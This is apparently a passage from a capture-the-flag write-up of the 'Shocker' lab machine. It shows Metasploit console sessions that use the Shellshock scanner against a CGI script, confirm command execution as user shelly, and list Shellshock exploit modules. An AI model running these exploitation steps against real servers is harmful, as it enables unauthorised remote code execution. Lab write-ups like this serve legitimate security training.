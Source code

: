 I set the options and check if the target is vulnerable. Then, I ran the script:

```bash
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set rhosts shocker.htb
rhosts => shocker.htb
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run
[-] Auxiliary failed: Msf::OptionValidateError One or more options failed to validate: TARGETURI.
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > check
[+] 10.10.10.56:80 - The target is vulnerable.
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run

[+] uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Now, I search again and use the Code Injection (RCE):

```bash
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > search shellshock                                                                                                                                                                     
                                                                                                                                                                                                                                             
Matching Modules                                                                                                                                                                                                                             
================                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
   #   Name                                               Disclosure Date  Rank       Check  Description                                                                                                                                     
   -   ----                                               ---------------  ----       -----  -----------                                                                                                                                     
   0   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)                                                                          
   1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)                                                                            
   2   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner                                                                         
   3   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)                                                                               
   4   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     No     DHCP Client Bash Environment Variable Code Injection (Shellshock)                                                                               
   5   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  No     Dhclient Bash Environment Variable Injection (Shellshock)
   6   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)
   7   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   8   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     Yes    OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   9   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Yes    Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
```
